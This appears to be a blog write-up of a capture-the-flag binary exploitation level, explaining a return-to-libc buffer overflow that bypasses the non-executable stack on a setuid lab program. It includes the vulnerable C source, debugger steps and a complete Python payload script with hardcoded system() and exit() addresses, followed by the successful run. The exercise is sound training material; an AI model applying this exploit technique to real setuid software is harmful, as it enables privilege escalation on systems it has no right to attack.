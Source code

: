 ![Logo](/assets/images/belts-red.png)


In this post we'll continue with the first level from the [Lieutenant](https://www.certifiedsecure.com/certification/view/37) set of challenges from **Certified Secure Binary Mastery**.
More buffer overflows on the horizon, but now a new protection mechanism is introduced: the non-executable (**NX**) bit. 
The method we'll need to use here is called is called **ret2libc** (return to libc) and allows us go around the fact that the stack is not executable.

In the previous levels we exploited similar stack-based buffer overflows by overwriting past the buffer limits, 
until we reached the saved return address, where we wrote an address we controlled. 
We placed the shellcode either in the buffer itself or in environment variables, which both ended up on the stack.
Now because the stack is NOT executable, the program would just crash. So we need a way to get past this. 
One known trick is to return insted to the function **system()** from the standard _libc_ library, which accepts an argument to execute.

To review the previous levels, check the links below:
* [Binary Master: Ensign - Level 1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html)
* [Binary Master: Ensign - Level 2](https://livz.github.io/2016/01/14/binary-master-ensign-2.html)
* [Binary Master: Ensign - Level 3](https://livz.github.io/2016/01/21/binary-master-ensign-3.html)
* [Binary Master: Ensign - Level 4](https://livz.github.io/2016/01/28/binary-master-ensign-4.html)
* [Binary Master: Ensign - Level 5](https://livz.github.io/2016/02/09/binary-master-ensign-5.html)

If you want to know more about the techniques to bypass the NX bit, make usre to check the following great resources:
* [Bypassing NX bit using return-to-libc](https://sploitfun.wordpress.com/2015/05/08/bypassing-nx-bit-using-return-to-libc/)
* [Bypassing NX bit using chained return-to-libc](https://sploitfun.wordpress.com/2015/05/08/bypassing-nx-bit-using-chained-return-to-libc/)

## 0 - Discovery
Let's connect to the server and check the binary we're dealing with:
```
$ ssh level5@hacking.certifiedsecure.com -p 8266
level4@hacking.certifiedsecure.com's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 3.13.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '16.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      
```

Let's see if we have any mitigation techniques using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally:
```bash
$ checksec.sh --file level1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE                       
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   level1

```

There is no stack canary but the stack is **not** executable. What about the state of ASLR on the system? Good news this time: there is [no ASLR](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization), everything is static:

```bash
$ cat  /proc/sys/kernel/randomize_va_space
0
```

## 1 - Vulnerability

```c
#include <string.h>
#include <stdio.h>
#include <unistd.h>

void hello(int count) {
        char buf[12];

        read(0, buf, count);                            [1]
        printf("Hello %s!\n", buf);
}

int main(int argc, char** argv) {
        if (argc != 2) {
                printf("Usage: %s <count>\n", argv[0]);
                return -1;
        }

        hello(atoi(argv[1]));
        return 0;
}
```

It's very easy to understand how the program works and the buffer overflow is obvious. The call to **read** function in **[1]** accepts the number of bytes to be read from the user, without any validation. Input is written into the **buf** buffer which is only 12 bytes. Simple!

The second issue is of course the absence of a stack cookie which, in this case, would have caused the program to crash, preventing the exploitation.

The third issue, which is a general one, is that the application has the **setuid** flag set and it executes actions based on user input (which could be malicious) with elevated privileges. A better design would be to drop the privileges before getting input from an untrusted source. There are ways around this as well, but it would raise the bar a little for the attackers.

## 2 - Exploit

The idea is to redirect the execution flow to the address of the **system** function and somehow give it a meaningful parameter to execute. Let's go step by step.

### Controlling the execution flow
Although we know that **buf** is 12 bytes in size, we need to see the stack layout of function **hello** in order to understand exactly how many bytes we need to overwrite to get to the saved return address on the stack.

![hello stack](/assets/images/bm6-1.png)

So we need 24 bytes of padding in the buffer before we'll reach the saved return address. Let's see first if we can reliably control the return address:

```bash
$ python -c 'print "A"*24 + "BBBB"' > input
$ gdb -q ./level1    
```

We see below that the execution crashed at address **0x42424242** ("BBBB"). That's good. We can move on.

![Control EIP](/assets/images/bm6-2.png)

### Final payload

After we gain control of the EIP, we want to return to the **system** function as discussed. I chose to execute the **/home/level2/victory** binary, but we could as well spawn a new bash shell. So the payload will look like this:

```
| PADDING (24 bytes) | addr. of system() | addr of exit() | addr of arguments |
```

If it's not clear why, go back to the articles referened in the beginning. The last parameter is important. We need to place there the argument to the **system** call. According to its [man page](http://man7.org/linux/man-pages/man3/system.3.html) this should be the address of a string in memory representing the command to execute. 

We can use the same trick as before and place the command to be executed in an environment variable:

```bash
$ export EGG="/home/level2/victory"
```
The complete script to generate the payload looks like this:

```python
import struct
from subprocess import call

system = 0xf7e65e70     # Address of system() function
exit = 0xf7e58f50       # Address of exit() function
egg = 0xffffdef9-6      # Address of environment variable (/home/level2/victory)

payload = "A" * 24 + struct.pack("<I", system) + struct.pack("<I", exit) + struct.pack("<I", egg)

open("/tmp/input", "wb").write(payload)
```

## 3 - Profit

```
$ /levels/level1 40 < /tmp/input
Hello AAAAAAAAAAAAAAAAAAAAAAAAp^�P�����
                                       !
   ___  _                      __  ___         __
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                              /___/  
                ___           __                   __    
               / (_)___ __ __/ /____ ___ ___ ____ / /_  
              / / // -_) // / __/ -_) _ | _ `/ _ | __/  
             /_/_/ \__/\_,_/\__/\__/_//_|_,_/_//_|__/   
              
Subject: Victory!
             
Congrats, you have solved level1. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level1 @ binary mastery lieutenant)
   * the exploit
   
You can now start with level2. If you want, you can log in
as level2 with password    [REDACTED]
```
